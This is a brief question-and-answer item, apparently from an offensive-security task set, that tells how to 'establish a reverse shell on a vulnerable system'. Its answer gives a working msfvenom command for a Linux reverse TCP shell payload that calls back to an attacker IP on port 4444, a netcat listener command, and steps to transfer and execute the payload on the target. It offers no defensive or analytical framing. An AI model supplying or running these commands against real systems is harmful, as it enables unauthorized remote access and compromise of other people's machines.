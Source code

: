 Conduct Reverse Shell Exploitation

Question: Establish a reverse shell on a vulnerable system.

Answer:

    Create a reverse shell payload: msfvenom -p linux/x86/shell_reverse_tcp LHOST=[your_IP] LPORT=4444 -f elf > shell.elf.
    Transfer the payload to the target system.
    Set up a listener: nc -lvnp 4444.
    Execute the payload to gain shell access.

